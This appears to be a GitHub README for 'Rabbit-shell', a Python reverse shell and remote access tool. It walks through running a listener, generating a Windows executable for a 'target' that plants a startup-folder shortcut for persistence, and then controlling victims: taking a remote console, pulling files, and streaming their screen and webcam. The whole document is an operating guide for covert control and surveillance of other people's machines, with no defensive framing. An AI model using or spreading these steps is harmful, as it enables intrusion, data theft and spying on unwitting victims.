 ![license](https://img.shields.io/github/license/greedalbadi/rabbit-shell)
![Python](https://img.shields.io/badge/Python-3.9-blue)
# Rabbit-shell

###### Rabbit shell advanced reverse shell tool.

![tool](https://i.postimg.cc/kXjvMvy3/Capture.png)

##  Installation.



### By pip.
 
```bash
pip install rabbit_shell
```
install using pypi.

or
###  By clone.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install .
```
install using git clone.



## steps.

> 1 - Install rabbit-shell tool.
>
> 2 - Generate your key using `--key` command.
>
> example: `rsb --key`
>
> 3 - run tool on your server using `--server` command along with your server **ip address** and **port** .
>
> example: `rsb --server -a 192.168.0.111 -p 9999`
>
> 4 - Generate exe for target using `--client` along with your server **ip address** and **port** .
>
> example: `rsb --client -a 192.168.0.111 -p 9999`
>
> 5 - now to start controlling target on your main device prefferred on windows run `--auth` command.
>
> example: `rsb --auth -a 192.168.0.111 -p 9999`
>
> - now when your target run your exe will it will be connected and you will can control your target.







# Usage.
```bash
rsb --help
```
print available arguments with a tiny explain or just rsb.

## Run server and start listening.

```bash
rsb --server -a 192.168.0.111 -p 9999
```

> - --server is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to

###### There'll be a seperate socket for file transfering the port is whaever enter - 1, If main server port 9999

###### file transfer port well be 9998, the files are going to trans to wherever your location is.





## Log to server as author.

```bash
rsb --auth -a 192.168.0.111 -p 9999
```

> - --auth is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to server and contacts
> - -k (optional) use key

###### connect to your server as an author and control your own clients.



## Generate exe for the target.

```bash
rsb --client -a 192.168.0.111 -p 9999
```

> - --client is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to


###### This will generate an exe inside a dist directory you may delete build folder, when the exe runs It'll create

###### a shortcut in startup folder if the system is windows.



## Generate new key\insert key\show key.

```bash
rsb --key
```

###### generate a new key and save it in data\basic.py.





## Commands to use from server side.



### To request server information.

```bash
>: server
```

###### Server host and port also the tool version and tool name.

### To list all clients.

```bash
>: list
```

###### List online and offline clients use, device address, and more.

### To set and controll a client console by client use number from the list.

```
>: set 0
```

###### To controle client console you can git client set number from using the command list

###### and use the command >: set (client use number).

### Quit client session.

```bash
>: quit
```

###### Quit client console without losing connection with client, used to things like changing to another set or gain info.

### Send file to client.

```bash
>: file:filename
```

###### 

### Request file from client.

```bash
>: reqfile:filename
```





# stream



##### streaming will be done by wich client is sending frames to the server

##### so make sure that it's one client whom send's stream frames and stop other streams to be safe, after you'r done with the stream stop it using `>: stream:stop` .

### stream current client screen.

```bash
>: stream:screen
```



### stream current client webcam.

```bash
>: stream:cam
```



### stop stream

```bash
>: stream:stop
```

###### make sure you stop the stream when you want to start streaming another client.







## About.

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

This tool uses MIT license.

made with depression <3
